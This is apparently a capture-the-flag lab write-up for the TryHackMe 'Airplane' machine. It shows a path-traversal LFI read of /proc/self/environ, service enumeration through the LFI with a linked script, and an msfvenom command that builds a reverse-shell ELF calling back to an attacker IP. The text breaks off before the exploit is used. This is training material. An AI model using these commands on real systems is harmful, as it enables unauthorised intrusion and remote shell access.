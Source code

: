 There's [[Local File Inclusion (LFI)]] vulnerability, in fact [[Escaping]] we can download files :

![[Pasted image 20250721211856.png]]

We have 2 users : `hudson & carlos` .

![[Pasted image 20250721212447.png]]

Let's first see which user we are here : `../../../../../../proc/self/environ` :

![[Pasted image 20250721212905.png]]

So we are `hudson`, we try to get user flag but there's not a file in his home path .

## GDBserver (6048)

### LFI script

We have to know what is running on the open port, if [[Nmap]] doesn't show that probably can't so we may think we can do it with this  [[Python]] tool :

https://github.com/TeneBrae93/offensivesecurity/blob/main/lfi-service-check/lfi-service-check.py

And we run it :
```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ python3 lfi-service-check.py 
usage: lfi-service-check.py [-h] -p PORT -t THREADS
lfi-service-check.py: error: the following arguments are required: -p/--port, -t/--threads
                                                                                                                              
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ python3 lfi-service-check.py -p 6048 -t 50

The service running on port 6048 is: /usr/bin/gdbserver 0.0.0.0:6048 airplane 

```

So it's GDBserver .
# Exploit

## HackTricks

We can go to [[HackTricks]] to find the manual [[Exploit]] :

![[Pasted image 20250722160502.png]]

## MsfVenom

We can use [[MsfVenom]] to create our payload and make it executable :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.162.183 LPORT=1337 PrependFork=true -f elf -o binary.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Final size of elf file: 226 bytes
Saved as: binary.elf
                                                                                                                              
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ ls   
binary.elf  environ  lfi-service-check.py  passwd
```